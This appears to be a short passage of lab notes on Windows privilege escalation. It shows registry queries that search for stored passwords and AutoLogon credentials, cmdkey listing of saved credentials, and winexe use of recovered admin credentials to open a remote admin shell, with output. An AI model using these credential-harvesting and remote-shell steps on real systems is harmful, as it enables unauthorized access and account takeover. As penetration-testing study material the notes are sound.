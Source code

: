 ```powershell
```



## **Passwords**

### **Registry**

- The registry can be searched for keys and values that contain the word "password":


```powershell
reg query HKLM /f password /t REG_SZ /s
```


- To save time, query this specific key to find admin `AutoLogon` credentials:

```
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

- We can then use `winexe` binary on kali to spawn a command prompt running with the admin privileges:

```bash
❯ winexe -U 'admin%password123' //10.10.162.79 whoami
win-qba94kb3iof\admin

❯ winexe -U 'admin%password123' //10.10.162.79 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>
```


> `Winexe` installs a service on the remote system, executes the command and uninstalls the service (`WinExeSvc.exe`). So you need SYSTEM level credentials for this to work.



### **Saved Creds**


- List any saved credentials:

```powershell
C:\PrivEsc>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```
